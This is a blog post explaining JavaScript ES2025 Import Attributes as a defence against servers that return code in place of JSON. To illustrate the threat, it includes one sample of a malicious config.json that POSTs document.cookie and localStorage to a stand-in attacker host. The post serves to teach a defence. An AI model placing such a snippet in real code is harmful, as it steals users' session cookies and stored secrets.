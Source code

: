 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript now includes **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## ❌ The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from './config.json';
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch('https://attacker.hack', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: 'secret-key',
    refreshToken: 'secret-key',
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## 💡 The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from './config.json';
+ // WITH Import Attributes - safe JSON import
+ import config from './config.json' with { type: 'json' };
```

## 💭 Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from './config.json' with { type: 'json' };

// Dynamic imports work too
const config = await import('./config.json', { 
  with: { type: 'json' } 
});

// Re-exports
export { apiKey } from './config.json' with { type: 'json' };

// Specify JavaScript module
import module from './module.js' with { type: 'javascript' };

// Web Workers
new Worker('worker.wasm', {
  type: 'module',
  with: { type: "webassembly" }
});
```

## 📌 Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.

- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.

- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.

- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.

## The Future of Import Attributes

Import attributes are a crucial step towards a safer and more predictable JavaScript ecosystem. They're expected to become part of ES2025 and will likely be essential for web development in the coming years.
